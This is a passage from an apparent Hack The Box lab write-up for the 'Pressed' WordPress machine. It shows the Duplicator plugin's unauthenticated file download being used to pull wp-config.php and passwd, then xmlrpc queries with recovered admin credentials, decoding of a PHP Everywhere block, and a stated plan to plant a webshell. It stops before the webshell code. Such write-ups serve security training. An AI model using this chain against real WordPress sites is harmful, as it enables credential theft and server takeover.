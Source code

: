 We see that the duplicator plugin allows for unauthenticated file download. We can get the real wp-config.php as opposed to the backup, and download it to find the password. https://wpscan.com/vulnerability/35227c3a-e893-4c68-8cb6-ffe79115fb6d/ We can download any files we want. Let’s get passwd as well. From the file, searching for sh, we see that there is another user htb on the system other than root. Let’s see if we can exploit the xmlrpc. To test it visit https://otakunozoku.com/using-curl-to-debug-wordpress-xmlrpc-calls/, now try the call method

```bash
curl -d '<?xml version="1.0"?> <methodCall> <methodName>system.listMethods</methodName> </methodCall>' http://pressed.htb/xmlrpc.php
```

And we get a response back with all the methods. Let’s use a python tool to speed this up:

```bash
python3 -m venv myenv
source myenv/bin/activate
pip3 install python-wordpress-xmlrpc
```

With this, we can interact with the xmlrpc api where we can information about the posts on the webpage. This documentation tells us how to upload a file: https://python-wordpress-xmlrpc.readthedocs.io/en/latest/examples/media.html#uploading-a-file

```bash
python
from wordpress_xmlrpc import Client
import wordpress_xmlrpc.methods as wp
client = Client('http://pressed.htb/xmlrpc.php', username='admin', password='uhc-jan-finals-2022')
plist = client.call(wp.posts.GetPosts())
plist[0].content

result:
'<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'

The interesting part is the pph-everywhere-block. It seems to be a base64 body, let's decode that and see what that is

echo 'JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=' | base64 -d 

result:
It's also url encoded, let's use burp decode to see it better
```

![image.png]({{ site.baseurl }}/assets/pressed/image%202.png)

It seems the website is using this code to generate the code of user agents. PHP Everywhere is a wordpress plugin that allows wordpress posts to run php. Because we have admin user’s credential, we can edit the post and create a webshell. Let’s modify the php:
